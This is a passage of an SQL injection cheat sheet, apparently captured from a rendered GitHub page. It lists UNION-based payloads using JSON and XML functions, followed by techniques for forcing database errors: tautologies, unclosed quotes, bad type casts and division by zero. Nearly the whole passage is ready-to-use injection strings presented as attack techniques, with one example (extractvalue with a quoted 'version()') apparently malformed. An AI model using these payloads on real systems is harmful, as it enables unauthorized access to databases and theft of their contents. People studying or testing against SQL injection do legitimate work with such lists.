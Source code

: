 #### Using JSON Functions

Leverage JSON functions to manipulate and extract data.
```sql
' UNION SELECT json_extract(column_name, '$.key') FROM table_name --
```

#### Using XML Functions

Utilize XML functions to create more complex payloads.
```sql
' UNION SELECT extractvalue(1, 'version()') --
```

## Techniques to Force Errors from Databases for SQL Injection

Forcing errors in databases can help reveal valuable information about the underlying SQL queries, database structure, and sometimes even the data itself. Here are some advanced techniques to force errors from various databases:

### 1. Syntax Errors

#### Classic Syntax Error

Introduce a deliberate syntax error to elicit an error message.
```sql
' OR 1=1; -- 
```

#### Unclosed Quotes

Leave a quote unclosed to generate an error.
```sql
' OR 'a'='a
```

### 2. Type Conversion Errors

#### Invalid Type Casting

Cast a string to an integer to cause a type conversion error.
```sql
' UNION SELECT CAST('abc' AS

 SIGNED) --
```

### 3. Function-Based Errors

#### Division by Zero

Force a division by zero error.
```sql
' UNION SELECT 1/0 --
```
